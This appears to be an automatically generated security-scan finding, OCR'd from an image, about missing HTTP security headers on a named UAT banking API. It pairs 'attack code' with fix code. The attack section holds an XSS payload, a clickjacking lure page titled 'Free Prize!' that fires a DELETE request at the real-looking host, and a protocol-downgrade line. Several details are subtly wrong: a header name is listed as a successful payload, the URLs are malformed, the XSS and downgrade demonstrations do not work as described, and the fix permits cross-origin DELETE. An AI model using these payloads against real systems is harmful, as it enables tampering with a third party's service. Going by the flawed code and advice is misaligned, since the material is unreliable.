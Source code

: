 **🔴 Priority:** Medium - Within 1 month

**🎯 Successful Payloads:**
1. `X-Permitted-Cross-Domain-Policies`

**⚔️ Attack Code (How to Simulate):**
```javascript
// Security Headers Attack Code
// 1. XSS Attack (if CSP missing)
const xssPayload = "<script>alert('XSS')</script>";
fetch("https://api.uat-nesfb.com/non-banking/discovery/v1/collectrequest?sliceAccountActiveStatus=false&connectionFailure=false&subscriptionFailure=false?q=" + encodeURIComponent(xssPayload));

// 2. Clickjacking Attack (if X-Frame-Options missing)
const clickjackingPage = `
<!DOCTYPE html>
<html>
<head><title>Free Prize!</title></head>
<body>
    <h1>🎁 Click for free prize!</h1>
    <iframe src="https://api.uat-nesfb.com/non-banking/discovery/v1/collectrequest?sliceAccountActiveStatus=false&connectionFailure=false&subscriptionFailure=false" style="opacity:0.1; position:absolute; top:50px; left:50px;"></iframe>
    <button onclick="triggerDelete()" style="position:absolute; top:50px; left:50px; z-index:1000;">
        🎁 CLAIM PRIZE
    </button>
    <script>
        function triggerDelete() {
            fetch("https://api.uat-nesfb.com/non-banking/discovery/v1/collectrequest?sliceAccountActiveStatus=false&connectionFailure=false&subscriptionFailure=false", {method: "DELETE"});
        }
    </script>
</body>
</html>`;

// 3. Protocol Downgrade (if HSTS missing)
// Attacker intercepts HTTPS and forces HTTP
fetch("https://api.uat-nesfb.com/non-banking/discovery/v1/collectrequest?sliceAccountActiveStatus=false&connectionFailure=false&subscriptionFailure=false".replace('https://', 'http://'));
```

**🛡️ Fix Code (How to Resolve):**
```javascript
// Security Headers Fix Code
// Add these headers to all API responses
response.headers['Content-Security-Policy'] = "default-src 'self'; script-src 'self'; object-src 'none'";
response.headers['X-Frame-Options'] = 'DENY';
response.headers['Strict-Transport-Security'] = 'max-age=31536000; includeSubDomains; preload';
response.headers['X-Content-Type-Options'] = 'nosniff';
response.headers['Referrer-Policy'] = 'strict-origin-when-cross-origin';
response.headers['Permissions-Policy'] = 'geolocation=(), microphone=(), camera=(), payment=()';
response.headers['X-XSS-Protection'] = '1; mode=block';
response.headers['Access-Control-Allow-Origin'] = 'https://yourdomain.com';
response.headers['Access-Control-Allow-Methods'] = 'GET, POST, DELETE';
response.headers['Access-Control-Allow-Headers'] = 'Content-Type, Authorization';
response.headers['X-Permitted-Cross-Domain-Policies'] = 'none';
response.headers['Cache-Control'] = 'no-store, no-cache, must-revalidate, proxy-revalidate';
response.headers['Pragma'] = 'no-cache';
response.headers['Expires'] = '0';
```
